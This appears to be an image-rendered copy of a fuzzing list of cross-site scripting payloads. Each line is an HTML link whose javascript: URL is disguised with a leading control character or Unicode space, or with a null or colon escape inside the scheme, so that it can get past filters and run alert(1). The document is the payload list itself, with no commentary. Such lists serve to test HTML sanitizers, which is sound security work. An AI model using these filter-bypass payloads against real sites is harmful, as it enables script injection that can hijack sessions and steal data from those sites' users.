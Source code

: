 &lt;a href="\x14javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x19javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\xE2\x80\xAFjavascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x1Fjavascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\xE2\x80\x81javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x1Djavascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\xE2\x80\x87javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x07javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\xE1\x9A\x80javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\xE2\x80\x83javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x04javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x01javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x08javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\xE2\x80\x84javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\xE2\x80\x86javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\xE3\x80\x80javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x12javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x0Djavascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x0Ajavascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x0Cjavascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x15javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\xE2\x80\xA8javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x16javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x02javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x1Bjavascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x06javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\xE2\x80\xA9javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\xE2\x80\x85javascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x1Ejavascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\xE2\x81\x9Fjavascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="\x1Cjavascript:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="javascript\x00:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;

&lt;a href="javascript\x3A:javascript:alert(1)" id="fuzzelement1"&gt;test&lt;/a&gt;
